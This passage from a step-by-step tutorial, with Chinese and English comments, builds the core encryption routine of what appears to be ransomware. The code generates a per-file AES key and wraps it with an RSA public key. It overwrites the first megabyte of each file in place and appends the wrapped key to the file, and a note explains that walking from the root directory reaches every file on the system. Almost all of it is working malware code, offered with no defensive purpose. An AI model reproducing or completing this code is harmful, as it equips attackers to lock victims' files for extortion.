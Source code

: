 ​	**类似函数返回的都是列表之类的，包含指定目录下的文件信息，遍历即可。		如果想要遍历系统所有文件，指定为根目录即可**！！





## SymEncryptFile

This will be the main encryption function. This is how it’ll work:

1. Call the function with a publicKey and a file path as a parameter

```
def symEncryptFile(publicKey, file):
```

2. Generate a random key for this specific file

```
key = generateKey()
```

3. Encrypt the random key with the publicKey.

```
encriptedKey = rsaEncryptSecret(key, publicKey)
```

4. Define an encryption size (n bytes) for the file. In this example we’ll use 1MB.

```
buffer_size = 1048576
```

5. Check that the file isn’t already encrypted, and if it is, ignore it.

```python
if file.endswith("." + cryptoName):            #这里file只是文件名字符串
 print('File is already encrypted, skipping')
 return
```

6. Encrypt the first n bytes of the file and overwrite its content.

```python
# Open the input and output files
 input_file = open(file, 'r+b')
 print("Encrypting file: "+ file)
 #output_file = open(file + '.' + cryptoName, 'w+b')# Create the cipher object and encrypt the data     因为我们目标是覆盖源文件，所以输出还是input file
 cipher_encrypt = AES.new(key, AES.MODE_CFB)# Encrypt file first
 input_file.seek(0)
 buffer = input_file.read(buffer_size)      #一次性读完要加密的
 ciphered_bytes = cipher_encrypt.encrypt(buffer)
 input_file.seek(0)
 input_file.write(ciphered_bytes)
```

7. Append the encrypted random key to the end of the file.

```
input_file.seek(0, os.SEEK_END)
input_file.write(encriptedKey.encode())
```
